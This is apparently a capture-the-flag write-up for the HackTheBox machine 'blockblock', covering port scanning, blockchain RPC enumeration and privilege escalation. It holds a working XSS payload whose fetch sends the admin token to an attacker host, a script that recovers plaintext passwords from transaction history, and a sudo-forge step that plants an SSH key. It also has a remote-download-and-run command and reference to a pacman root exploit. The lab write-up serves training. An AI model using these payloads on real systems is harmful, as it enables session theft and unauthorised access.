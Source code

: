 ```yaml
---
layout: post
title: HTB - blockblock
date: 2025-04-02 09:03 -0400
---
```


{{ 'blockblock' | get_machine_avatar | raw }}

## nmap
```bash
~/workspace/projects/htb/blockblock » sudo nmap -p- $(cat ip.txt) --min-rate 1024
[sudo] password for shafou:
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-04 10:22 -04
Nmap scan report for 10.10.11.43
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8545/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 77.30 seconds
```

Port 80 is a defi web app.
![main website](/assets/img/blockblock4.png)

8545 is the blockchain rpc endpoint.
Only `eth_blockNumber` seems to work without authentication.
![burp blockchain rpc1](/assets/img/blockblock2.png)
![burp blockchain rpc2](/assets/img/blockblock3.png)

`/api/contract_source` gives us the source code for the solidity part. Since its using a blockchain we can see the whole history and probably find the admin password in there.
```solidity
// Database.sol:38 ~ 42
    constructor(string memory secondaryAdminUsername,string memory password) {
        users["admin"] = User(password, "admin", true);
        owner = msg.sender;
        registerAccount(secondaryAdminUsername, password);
    }
```

There seems to be an XSS on username. So we can get the admin token from `/api/info`.
```python
import requests
import random
import base64

i = random.choice(range(1000000))
url = "http://blockblock.htb/api/register"
payload = b"""fetch("/api/info")
.then(res => { return res.text() })
.then(data => { return fetch(`http://10.10.14.9:5000/?info=${data}`) })
"""
payload = base64.b64encode(payload).decode()

payload = f"{i}<img src=x onerror=eval(atob('{payload}'))>"
headers = {
    "Content-Type": "application/json",
}
data = {"username": payload, "password": "asd", "repeatedPassword": "asd"}
response = requests.post(url, json=data, headers=headers)
t = response.json()["token"]

url = "http://blockblock.htb/api/report_user"
data = {"username": payload}
response = requests.post(url, json=data, headers=headers, cookies={"token": t})
```

After that we check the admin dashboard. And find out how the auth works by accident.
![burp blockchain rpc3](/assets/img/blockblock1.png)

You then add that token to the http header `token: <token>`

We can now check every transaction and look for the admin password.
```python
import requests
import string

url = "http://blockblock.htb:80/api/json-rpc"
cookies = {
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0MjkxNTgzNiwianRpIjoiYjllZGYxZTItMWI5My00YWEyLTk2OGYtNjZhN2IyNmNhMzA1IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFzZCIsIm5iZiI6MTc0MjkxNTgzNiwiZXhwIjoxNzQzNTIwNjM2fQ.bBE5GdYSLkEdJoTFJS0KrfhPBm08Z-Fep5tT8Yz9U2c"
}
headers = {
    "token": "e06e2af5449cb73b6d23bffa0302fe3b57a08f7075a7c6c93113e0fe26b74f68"
}
j = {
    "id": 1,
    "jsonrpc": "2.0",
    "method": "eth_getBlockByNumber",
    "params": ["0x01", True],
}
res = requests.post(
    url,
    headers=headers,
    cookies=cookies,
    json=j,
    proxies={"http": "http://0.0.0.0:8080", "https": "https://0.0.0.0:8080"},
)
trans = res.json()["result"]["transactions"]
for t in trans:
    code = t["input"][2:]

    s = [int(code[i : i + 2], 16) for i in range(0, len(code), 2)]

    dec = ""
    for c in s:
        try:
            c = chr(c)
            if c in string.printable:
                dec = dec + c
                continue

            dec = dec + "___"
        except:
            pass

    print(f"DEBUGPRINT[7]: dec.py:7: dec={dec}")
```

Kinda scuffed but its pretty clear what the password is:

```
keira___________________________________________________________________________________________
______________________________________________________________________________________SomedayBitCo
inWillCollapse__________________
```

it works for both `keira` and `admin`.

```bash
[keira@blockblock ~]$ cat user.txt
cd0fe***************************
```

# priv esc
## paul 1

The creds for the paul account are hardcoded on `/home/keira/webapp/db/db.py`. But this is kinda of guessy way to escalate.

```python
// database.py:16
account = web3.eth.account.decrypt(keystore, "september")
```

## paul 2
Another way to escalate to paul is with forge.
```bash
[keira@blockblock ~]$ sudo -l
User keira may run the following commands on blockblock:
    (paul : paul) NOPASSWD: /home/paul/.foundry/bin/forge
```

You make a forge project. And write your key into paul's authorized keys.
```bash
#!/bin/bash

tar -cvf ./ble.tar.zx ble && mv ./ble.tar.zx ~/flask_lab/static/
sshpass -p 'SomedayBitCoinWillCollapse' ssh keira@$(cat ip.txt) \
  'rm -rf /tmp/123; \
   mkdir -p /tmp/123 && cd /tmp/123 && \
   curl 10.10.14.9:5000/static/ble.tar.zx -O && \
   tar -xvf ble.tar.zx && \
   cd /tmp/123/ble && \
   find -exec chmod 4777 {} \; && \
   sudo -u paul /home/paul/.foundry/bin/forge script script/Counter.s.sol:CounterScript -vvv'
```

```toml
[profile.default]
src = "src"
out = "out"
libs = ["lib"]

fs_permissions = [{ access = "read-write", path = "/" }]
```

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";

contract CounterScript is Script {
    function setUp() public {}

    function run() public {
        vm.startBroadcast();
        vm.writeFile("/home/paul/.ssh/authorized_keys", "<SSH PUB KEY>");
        vm.stopBroadcast();
    }
}
```


## root
For root there is a pretty straight forward [poc](http://thecybersimon.com/posts/Privilege-Escalation-via-Pacman/) to exploit pacman.

```bash
# sshpass -p 'september' ssh paul@$(cat ip.txt)
[paul@blockblock contracts]$ sudo -l
User paul may run the following commands on blockblock:
    (ALL : ALL) NOPASSWD: /usr/bin/pacman
```

```bash
[root@blockblock ~]# cat root.txt
ca20c***************************
```
